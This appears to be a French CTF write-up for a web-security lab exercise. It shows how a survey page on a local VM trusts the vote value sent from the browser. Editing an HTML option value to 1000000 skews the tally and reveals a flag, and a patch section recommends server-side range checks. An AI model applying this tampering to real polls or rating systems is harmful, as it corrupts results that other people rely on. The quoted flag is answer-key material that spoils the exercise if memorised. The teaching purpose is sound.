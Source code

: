 # B03-TrustedFront-SurveyVote

##  BREACH

PATH `http://192.168.56.110/index.php?page=survey#`

Pour celui-ci nous allons sur la page `survey` et on peux voir un systeme de vote.

En inspectant le code, on peux voir que les notes que nous mettons sont directement passer dans le code en tant que valeur, donc si on change cette valuer pour quelque chose de tres grand on peux fausser le vote.

On test

```
<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="4">
					<select name="valeur" onchange="javascript:this.form.submit();">
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</select>
				</form>
			</td>
			<td align="center"> 9.37838			</td>
			<td align="center"> Thor			</td>
			<td align="center"> 37			</td>
		</tr>
```

On modifie les values

```
<option value="1000000">10</option>
```

```
THE FLAG IS 03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
```

## PATCH

Quand tu fais un site web, une regle majeur est de ne jamais faire confiance au `front` pour des donnees importantes
car l'utilisateur peux tout modifier a sa convenance.

Ici la value envoyer est directement utiliser pour impacter les resultats du vote donc l'utilisateur peux facilement la modifier. Pour regler cela, il suffit de faire un check dans le back pour s'assurer que les valeurs sont bien compris entre les valeurs possibles soit entre `1 et 10`